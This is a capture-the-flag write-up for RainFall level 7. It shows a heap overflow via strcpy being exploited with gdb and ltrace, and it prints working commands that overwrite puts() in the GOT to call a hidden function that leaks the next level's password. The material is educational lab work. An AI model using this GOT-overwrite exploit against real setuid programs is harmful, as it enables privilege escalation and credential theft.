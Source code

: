 # Level 7

## Vulnerability

Heap Overflow + Memory Corruption

## Context

We find a binary with owner level8 and SUID.
```
level7@RainFall:~$ ls -l
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
```
It segfaults when run with 0 or 1 argument. It reponds to 2 or more arguments with "~".
```
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 anya
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 anya drew
~~
level7@RainFall:~$ ./level7 anya drew win
~~
```

## Solution

Let's explore the binary using gdb. 
We can see here that ```main()``` makes 2 calls to ```strcpy()```, and one call to each ```fopen()``` and ```fgets()```.
```strcpy()``` is unsafe in that it has no length parameter, which leaves it vulnerable to buffer overflows and consequent memory corruption. 
```
level7@RainFall:~$ gdb -q level7
(gdb) disas main
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
```
Let's take a deeper look at the ```fopen()``` and ```fgets()``` parameters.
It looks like it opens the file with the password we're looking for, and saves it in ```c```!
It then does nothing with ```c```.
```
(gdb) disas main
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
[...]
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   
(gdb) x/s 0x80486e9
0x80486e9:	 "r"
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
(gdb) x/s 0x8049960
0x8049960 <c>:	 ""
```
Let's see if that's everything. 
We also find a function ```m()``` that is never called. 
This function prints ```time()``` and the variable ```c```!
```
(gdb) info function
All defined functions:
[...]
0x080484f4  m
[...]
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)      <- 0x8049960 is the address of variable c
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
```
Sooo the exploit here is to call ```m()``` by overwriting ```puts()``` in the GOT... and thus print ```c``` (and the password)!

Let's locate the addresses of ```m()``` and ```puts()```.
We can see the address of ```m()``` is 0x080484f4, and the address of ```puts@plt``` is 0x8048400.
But that's just a pointer to ```puts``` GOT address – which, upon closer inspection is 0x8049928.
```
(gdb) info function
All defined functions:
[...]
0x08048400  puts@plt
0x080484f4  m
[...]
(gdb) x/i 0x8048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
```
Next, let's work out our payload. 
We'll use this [buffer overflow EIP offset string generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to work out which offset is being overwritten. 
```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
__libc_start_main(0x8048521, 2, 0xbffff744, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
It looks like the program segfaults at 0x37614136, and if we plug that into our handy link above, we find the offset is 20. 

Here is what our string attack should look like:
- pad of arbitrary data [20 bytes]
- puts() GOT address [4 bytes]
- address of m() [4 bytes]
Let's visualize that. 
```
"paddings [20 bytes] + GOT address of puts" + "address of m()"
                  argv[1]                          argv[2]
```
Let's try it out!
```
level7@RainFall:~$ ./level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1611061949
```

## Recreate Exploited Binary

As user ```level8```, in ```/tmp```, create and compile ```level7_source.c```
```
level8@RainFall:~$ cd /tmp
level8@RainFall:/tmp$ gcc level7_source.c -o level7_source
```

Edit permissions including suid, then move the binary to home directory.
```
level8@RainFall:/tmp$ chmod u+s level7_source
level8@RainFall:/tmp$ chmod +wx ~; mv level7_source ~
```

Exit back to user ```level7```, then run the binary. <br/>
Notes: 
- Our new address for ```m()``` is located at 0x08048514 (but we still print the address in little endian).
- Our new address for ```puts()``` is located at 0x8048420 => 0x0804a014 (in the GOT)
```
level8@RainFall:/tmp$ exit
exit
level7@RainFall:~$ /home/user/level8/level7_source `python -c 'print "a" * 20 + "\x14\xa0\x04\x08"'` `python -c 'print "\x14\x85\x04\x08"'`
```
